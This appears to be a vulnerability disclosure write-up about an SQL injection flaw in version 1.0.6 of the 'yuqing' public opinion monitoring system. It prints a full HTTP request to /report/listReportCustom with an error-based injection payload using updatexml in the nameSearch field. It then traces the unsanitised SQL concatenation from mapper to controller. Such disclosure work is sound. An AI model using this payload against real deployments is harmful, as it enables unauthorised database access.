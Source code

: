 ### SQL injection exists in the public opinion monitoring network monitoring system



### Project address https: gitee.com/stonedtx/yuqing Affected version 1.0.6



### Vulnerability analysis Log in as a test user. Access the /report/listReportCustom interface and construct the following data package for the interface:

```
POST /report/listReportCustom HTTP/1.1
Host: 127.0.0.1:8084
Content-Length: 112
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1:8084
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8084/report?groupid=1493154486150107136&projectid=1493154645181337600&search=&type=1&page=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1691376050; local-portal=77E068CB3DBFA3E311237A3E65D6E77E; Hm_lvt_e0ae7650bd7b3442428280c81a85f60b=1691564381; Hm_lvt_f17e264e40b4ac75672813c1a2ae7110=1691564381; Hm_lpvt_e0ae7650bd7b3442428280c81a85f60b=1691564960; Hm_lpvt_f17e264e40b4ac75672813c1a2ae7110=1691564960
Connection: close

pageNum=1&reportType=1&nameSearch=') and updatexml(1,concat(0x7e,user()),1) and ('&projectId=1493155905573883904
```

sqlmap

![img](https://cdn-images-1.medium.com/max/900/0*Og7L93JUdMjQYJMP)

![img](https://cdn-images-1.medium.com/max/900/0*NNgCZmzL_cYbtJT6)

### code analysis

Check that there is sql splicing in the listReportCustom statement in src/main/resources/mapper/ReportCustomMapper.xml.

![img](https://cdn-images-1.medium.com/max/900/0*iOe-IbV2Ku3gDs6O)

Go to the first floor.

![img](https://cdn-images-1.medium.com/max/900/0*DepB5AYFqIVWjTeT)

Service layer

![img](https://cdn-images-1.medium.com/max/900/0*EOzQ3vTRNxGcgXJG)

Service instantiated class

![img](https://cdn-images-1.medium.com/max/900/0*qrI9h4ho4ex7r3lH)

Controller layer. There is no filtering during program calls. You can directly inject the “/report/listReportCustom” interface construction parameters.

![img](https://cdn-images-1.medium.com/max/900/0*MMkOOxWVJowT-tcn)